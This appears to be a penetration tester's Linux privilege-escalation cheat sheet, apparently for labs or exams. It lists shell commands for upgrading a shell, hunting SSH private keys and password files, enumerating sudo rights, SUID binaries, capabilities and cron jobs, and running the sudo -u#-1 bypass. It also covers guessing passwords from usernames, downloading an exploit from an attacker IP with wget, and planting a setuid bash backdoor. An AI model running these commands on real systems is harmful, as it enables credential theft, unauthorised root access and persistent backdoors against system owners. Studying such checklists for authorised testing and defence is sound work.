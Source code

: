 ```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

grep *sh$ /etc/passwd

id

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l
ls /etc/cron.d
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports
cat /etc/fstab

sudo -u#-1 /bin/bash

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

ls -l /tmp /var/tmp /dev/shm /opt

logrotate -v

ps aux | grep tmux

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 192.168.45.x/sudodoom
```

```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```